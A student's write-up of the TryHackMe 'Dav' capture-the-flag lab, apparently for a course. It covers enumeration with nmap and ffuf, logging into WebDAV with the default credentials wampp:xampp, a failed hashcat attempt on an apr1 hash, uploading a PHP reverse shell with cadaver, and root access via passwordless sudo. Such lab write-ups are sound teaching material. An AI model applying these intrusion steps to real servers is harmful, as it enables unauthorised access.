 ```yaml
---
Title: SWS101 dav
categories: [SWS101, Try_Hack_Me(CTF)]
tags: [SWS101]
---
```

## Topic: Dav
---

Hello everyone, I hope you all are doing good! In this page we will be learning about the Dav challenges from Try Hack Me.

## Target IP Address


## Enumeration

### Ping

I pinged the target machine to check whether I can communicate with the target machine or not using the ping command and the target IP address.

    rybnorbu@lenevo-ranjung:~/Downloads$ sudo ping 10.10.189.52

![alt text](../dav_ctf/ping.png)

Yes, the machine is online and I can communicate with it.

Then, I scaned the target machine using Nmap to identify open ports and services.

### Nmap

I scanned the machine to see the open ports;



### result

* 80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))

### Web 

This is what I got when I visited the target IP address in the browser.

![alt text](../dav_ctf/ip.png)

It is about default Apache website. 

Then I brute forced the directories using ffuf and found the following directories.

    rybnorbu@lenevo-ranjung:~/Downloads$ ffuf -w /home/rybnorbu/SecLists-master/Discovery/Web-Content/common.txt -u http://10.10.189.52//FUZZ

            /'___\  /'___\           /'___\       
        /\ \__/ /\ \__/  __  __  /\ \__/       
        \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
            \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
            \ \_\   \ \_\  \ \____/  \ \_\       
            \/_/    \/_/   \/___/    \/_/       

        v1.1.0
    ________________________________________________

    :: Method           : GET
    :: URL              : http://10.10.189.52//FUZZ
    :: Wordlist         : FUZZ: /home/rybnorbu/SecLists-master/Discovery/Web-Content/common.txt
    :: Follow redirects : false
    :: Calibration      : false
    :: Timeout          : 10
    :: Threads          : 40
    :: Matcher          : Response status: 200,204,301,302,307,401,403
    ________________________________________________

    .htpasswd               [Status: 403, Size: 296, Words: 22, Lines: 12]
    .htaccess               [Status: 403, Size: 296, Words: 22, Lines: 12]
    .hta                    [Status: 403, Size: 291, Words: 22, Lines: 12]
    index.html              [Status: 200, Size: 11321, Words: 3503, Lines: 376]
    server-status           [Status: 403, Size: 300, Words: 22, Lines: 12]
    webdav                  [Status: 401, Size: 459, Words: 42, Lines: 15]
    :: Progress: [4727/4727] :: Job [1/1] :: 73 req/sec :: Duration: [0:01:04] :: Errors: 0 ::

I found the webdav directory. When I visited the webdav directory I found the login page.

![alt text](../dav_ctf/ip_dav.png)

![alt text](../dav_ctf/webdav.png)

So, after some research I found that the default credentials for webdav is `wampp:xampp`. I referenced this from [here](https://xforeveryman.blogspot.com/2012/01/helper-webdav-xampp-173-default.html).

![alt text](../dav_ctf/web.png)

I logged in with this credentials and found the site.

![alt text](../dav_ctf/found.png)

Inside the passwd.dav. I found this:

    wampp:$apr1$Wm2VTkFL$PVNRQv7kzqXQIHe14qKA91

I used hash-identifier to identify the hash type.

![alt text](../dav_ctf/hash_id.png)

I tried to crack the hash but failed. I used hashcat to crack the hash.

    rybnorbu@lenevo-ranjung:~/Desktop/Hacking/hashCrask$ hashcat -m 1600 -a 0 hash_dav.txt rockyou.txt

This is the output of the hashcat.

    Session..........: hashcat                                
    Status...........: Quit
    Hash.Mode........: 1600 (Apache $apr1$ MD5, md5apr1, MD5 (APR))
    Hash.Target......: $apr1$Wm2VTkFL$PVNRQv7kzqXQIHe14qKA91
    Time.Started.....: Sat Jun  1 17:59:50 2024 (41 secs)
    Time.Estimated...: Sat Jun  1 18:11:27 2024 (10 mins, 56 secs)
    Kernel.Feature...: Pure Kernel
    Guess.Base.......: File (rockyou.txt)
    Guess.Queue......: 1/1 (100.00%)
    Speed.#1.........:    20559 H/s (12.19ms) @ Accel:128 Loops:250 Thr:1 Vec:8
    Recovered........: 0/1 (0.00%) Digests
    Progress.........: 850944/14344384 (5.93%)
    Rejected.........: 0/850944 (0.00%)
    Restore.Point....: 850944/14344384 (5.93%)
    Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:750-1000
    Candidate.Engine.: Device Generator
    Candidates.#1....: montero02 -> momo5390
    Hardware.Mon.#1..: Temp: 87c Util: 91%

    Started: Sat Jun  1 17:59:30 2024
    Stopped: Sat Jun  1 18:00:33 2024


I found a resource that teach to upload a shell using `cadaver`. I used this tool cadaver to upload a reverse shell.

This is how to use cadaver to upload a shell.

![alt text](../dav_ctf/put.png)

Same like this first I logged into the site inside the terminal and then uploaded the shell. The shell I used is `r_shell.php`. I uploaded the shell in the webdav directory.

![alt text](../dav_ctf/rshell.png)

I have successfully uploaded the shell.

![alt text](../dav_ctf/rshell_uploaded.png)

Now, I started the listener in my machine and visited the shell in the browser.

![alt text](../dav_ctf/userfalg.png)

I have used a snippet of code to stabilize the shell. 

    python -c 'import pty; pty.spawn("/bin/bash")'

This is the code I used to stabilize the shell. And I got the user flag.

### Privilege Escalation Phase

I checked the privileges of the user using the command `sudo -l`.

![alt text](../dav_ctf/privilage.png)

From this I got a hint that I can get the root access by running the command `sudo /bin/bash` without password. So, I ran the command `sudo /bin/bash` and got the root access. I used cat as root without password.

![alt text](../dav_ctf/rootflag.png)

Finally, I got the root flag.


    Thank You!!

